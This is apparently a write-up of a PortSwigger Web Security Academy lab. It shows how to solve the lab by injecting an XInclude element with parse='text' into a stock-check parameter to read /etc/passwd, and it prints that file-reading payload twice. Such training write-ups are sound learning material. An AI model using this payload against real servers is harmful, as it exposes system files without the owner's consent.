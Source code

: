 # Lab: Exploiting `XInclude` to retrieve files
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab has a "Check stock" feature that embeds the user input inside a server-side XML document that is subsequently parsed.
Because you don't control the entire XML document you can't define a DTD to launch a classic XXE attack. 
* Goal:  To solve the lab, inject an `XInclude` statement to retrieve the contents of the /etc/passwd file. 
* Hint: By default, `XInclude` will try to parse the included document as XML. Since /etc/passwd isn't valid XML, you will need to add an extra attribute to the `XInclude` directive to change this behavior. 

## Background
> XInclude is a part of the XML specification that allows an XML document to be built from sub documents You can place an XInclude attack within any data value in an XML document, so the attack can be performed in situations where you only control a single item of data that is placed into a server side XML document
> 
> To perform an XInclude attack you need to reference the XInclude namespace and provide the path to the file that you wish to include
>
>For example:
>    ```xml!
>    <foo xmlns:xi="http://www.w3.org/2001/XInclude">
>    <xi:include parse="text" href="file:///etc/passwd"/></foo>
>    ```

---
[淺析xml之xinclude & xslt](https://lonelysec.com/%E6%B7%BA%E6%9E%90xml%E4%B9%8Bxinclude-xslt/)
>xinclude可以理解為xml include熟悉編譯腳本語言的一定熟知，像php的include，python和java的import都是可以進行檔案包含的。

## Recon
In this lab, the package did not contain the xml format data so I can't control DTD to launch a classic XXE.
Therefore, we can use xinclude?
![](https://i.imgur.com/X4AUgv9.png)

## Exp
Just use the payload at background section and replace `productID`'s data to exploited payload.
$\to$
```xml!
productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```
:::spoiler Success Screenshot
![](https://i.imgur.com/k87rQpi.png)

---
![](https://i.imgur.com/J8W0JPF.png)

:::

## Reference